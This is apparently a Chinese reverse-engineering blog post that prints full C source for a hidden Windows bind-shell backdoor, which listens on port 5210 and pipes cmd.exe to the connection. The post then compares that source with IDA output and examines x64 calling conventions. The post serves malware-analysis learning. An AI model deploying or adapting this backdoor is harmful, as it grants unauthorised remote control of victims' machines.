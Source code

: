 +++
title = '从正向木马编写看逆向工程'

description = "新手村知识"

tags = [ "技术" ]

date = 2020-11-26T20:11:59+08:00

+++

​	提高样本分析能力，最重要的事情之一就是先正向编写木马。之前简单编译过一个程序，今天搜了一个非常简单的后门，比较一下反编译的结果和源码的区别。

​	源码如下。

```
#pragma comment(lib,"ws2_32.lib")  //这里我们静态加入一个lib文件，也就是ws2_32.lib</font>

#pragma comment(linker,"/subsystem:\"windows\"/entry:\"mainCRTStartup\"") //设置连接器选项

#include <winsock2.h> //包含头文件winsock2.h,这个是 windows socket的头文件

#include <windows.h> //常用的，不解释

#define MasterPort 5210 //定义一个常量，也就是我们后面要打开的端口

main()   //主函数不解释
{
  WSADATA WSADa; //这个结构被用来存储被WSAStartup函数调用后返回的Windows Sockets数据。后面的基本上差不多就不解释，不懂请大家自行百度
  sockaddr_in SockAddrIn; 
  SOCKET CSocket,SSocket;
  int iAddrSize;
  PROCESS_INFORMATION ProcessInfo;
  STARTUPINFO StartupInfo;
  char szCMDPath[255];
  
  //分配内存，初始化数据
  ZeroMemory(&ProcessInfo,sizeof(PROCESS_INFORMATION));
  ZeroMemory(&StartupInfo,sizeof(STARTUPINFO));
  ZeroMemory(&WSADa,sizeof(WSADATA));

  //获取cmd路径
  GetEnvironmentVariable("COMSPEG",szCMDPath,sizeof(szCMDPath));

  //加载ws2_32.dll
  WSAStartup(0x0202,&WSADa);

  //设置本地信息和绑定协议,建立socket,代码如下:
  SockAddrIn.sin_family = AF_INET;
  SockAddrIn.sin_addr.s_addr = INADDR_ANY;
  SockAddrIn.sin_port = htons(MasterPort);
  CSocket = WSASocket(AF_INET,SOCK_STREAM,IPPROTO_TCP,NULL,0,0);

  //设置绑定端口，将SockAddrIn绑定到CSocket。
  bind(CSocket,(sockaddr *)&SockAddrIn,sizeof(SockAddrIn));

  //设置服务器端监听端口
  listen(CSocket,1);
  iAddrSize = sizeof(SockAddrIn);

  //开始连接远程服务器，并配置隐藏窗口结构体
  SSocket = accept(CSocket,(sockaddr *)&SockAddrIn,&iAddrSize);

  StartupInfo.cb = sizeof(STARTUPINFO);

  StartupInfo.wShowWindow = SW_HIDE;
  
  StartupInfo.dwFlags = STARTF_USESTDHANDLES |

  STARTF_USESHOWWINDOW;

  StartupInfo.hStdInput = (HANDLE)SSocket;

  StartupInfo.hStdOutput = (HANDLE)SSocket;

  StartupInfo.hStdError = (HANDLE)SSocket;
  
  //创建匿名管道：

  CreateProcess(NULL, szCMDPath, NULL, NULL, TRUE, 0, NULL, NULL, &StartupInfo, &ProcessInfo);

  WaitForSingleObject(ProcessInfo.hProcess, INFINITE);

  CloseHandle(ProcessInfo.hProcess);

  CloseHandle(ProcessInfo.hThread);

 

  //关闭进程句柄：

  closesocket(CSocket);

  closesocket(SSocket);

  WSACleanup();

    //关闭连接卸载ws2_32.dll

  return 0;

  }
```

实际IDA反编译出来的效果如下：

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/14579c8d6365d8c8ebbc49c59bfc8563.png)

可以看到反编译的结果，库的导入和局部变量的定义是没有的，应该是编译过程中，在链接操作之前这些就已经执行完成了。

简单来说这个程序的功能就是开放5210端口，并监听。然后把输入重定向到新起cmd进程，并把cmd进程的输出重定向到5210端口。

##### 对64位下传参的测试

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/4df417ee0c925a50506052e490c72dfa.png)

传4个参数及以下，使用的是寄存器传参，cd89，第一个参数传到c，第二个参数传到d，第三个参数传到8，第四个参数传到9。从顺序上来看，从右往左，先从第四个开始传，再从第三个开始传...

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/7cfa50c168c605c3f3c348bc87cc3891.png)

传5个参数及以上，前四个使用寄存器传参，从第五个开始使用堆栈传参(上图是传完了之后的结果，汇编侧可以看到寄存器的使用)。可以看到第五个参数先使用了寄存器将参数从rbp-14h中取出来(寻址方式。反映变化趋势的方面，栈由高地址向低地址生长，参数由低地址向高地址生长。x64dbg的上面是栈顶低地址下面是栈底高地址)。

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/d8c9290af6a1335497314da67801034c.png)

然后又赋给了rsp+20，最后把eax中存放的第一个参数赋给ecx。

![0880c08b0110ebe3d330](C:\Users\lizhenxin\AppData\Roaming\LanxinSoftCustom\LxResource\Images\0880c08b0110ebe3d330.png)

比较奇怪的是为什么不在栈顶。

##### 基础知识

1. StartupInfo结构体，主要用于创建新进程时，指定该进程的主窗口特性。主要指定窗口显示状态、窗口位置和大小、窗口标题和其他属性。
2. 获取cmd的绝对路径可以使用GetEnvironmentVariableA("COMSPEC", Buffer, 0xFFu)。
3. C语言的强制类型转换：(typename)  expression，typename为新类型名称，expression为表达式。
4. 返回地址的存储，因为是由主调函数进行的压栈操作，所以x64dbg的栈区分，将存储返回地址的部分算作上一个栈。
5. UTF-8 是 Unicode 的实现方式之一。
